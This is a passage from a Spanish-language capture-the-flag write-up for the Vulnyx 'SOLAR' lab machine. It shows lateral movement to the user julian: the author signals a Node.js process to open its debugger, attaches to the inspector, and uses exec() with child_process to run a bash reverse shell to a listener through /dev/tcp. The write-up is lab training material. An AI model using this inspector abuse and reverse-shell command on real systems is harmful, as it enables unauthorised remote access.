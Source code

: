 Verificamos si podemos ejecutar el binario de `nodejs` que está en el servidor y si tenemos permisos de ejecución.

```bash
lenam@solar:~$ /home/julian/.nvm/versions/node/v22.7.0/bin/node --version
v22.7.0
```

Matamos el proceso y, a continuación, intentamos entrar con el inspector de `nodejs`.

```bash
lenam@solar:~$ doas -u julian /bin/kill -s SIGUSR1 $(pgrep "node") && /home/julian/.nvm/versions/node/v22.7.0/bin/node inspect localhost:9229
doas (lenam@solar) password: 
connecting to localhost:9229 ... ok
debug> 
```

Podemos entrar al inspector y enviar comandos al proceso de la aplicación mediante `exec()`. Esto funcionará un rato hasta que el proceso sea reiniciado (aproximadamente cada 2 minutos); después, tendremos que salir del inspector con `.exit`.

Nos ponemos a escuchar con `netcat` en nuestra máquina.

```bash
┌──(kali㉿kali)-[~/CTFs/Vulnyx/SOLAR/test]
└─$ nc -lvnp 5000 
listening on [any] 5000 ...
```

En el servidor, ejecutamos el comando anterior para entrar en el inspector de `nodejs`.

```bash
lenam@solar:~$ doas -u julian /bin/kill -s SIGUSR1 $(pgrep "node") && /home/julian/.nvm/versions/node/v22.7.0/bin/node inspect localhost:9229
doas (lenam@solar) password: 
connecting to localhost:9229 ... ok
debug> 
```

Rápidamente, sin esperar mucho tiempo, introducimos en el depurador:

```javascript
debug> exec("process.mainModule.require('child_process').exec('bash -c \"/bin/bash -i >& /dev/tcp/192.168.1.116/5000 0>&1\"')")
```

Obtenemos una `revshell` con el usuario `julian`.

![revshell julian](../../../assets/images/solar/image-19.png)
